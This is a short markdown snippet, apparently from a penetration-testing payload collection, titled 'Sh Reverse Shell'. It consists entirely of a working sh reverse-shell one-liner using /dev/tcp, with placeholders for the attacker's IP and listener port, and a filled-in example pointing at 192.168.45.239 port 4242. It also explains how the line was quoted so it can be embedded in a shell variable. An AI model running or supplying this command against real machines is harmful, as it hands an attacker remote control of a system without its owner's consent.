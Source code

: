 ## Sh Reverse Shell

> Note: single quotes were avoided so that it can be wrapped in `'`${SHELL}`'`

Replace `${ATTACKER_IP}` and `${ATTACKER_LISTENER_PORT}` below:

```
0<&196;exec 196<>/dev/tcp/${ATTACKER_IP}/${ATTACKER_LISTENER_PORT}; sh <&196 >&196 2>&196
```

e.g.

```
0<&196;exec 196<>/dev/tcp/192.168.45.239/4242; sh <&196 >&196 2>&196
```
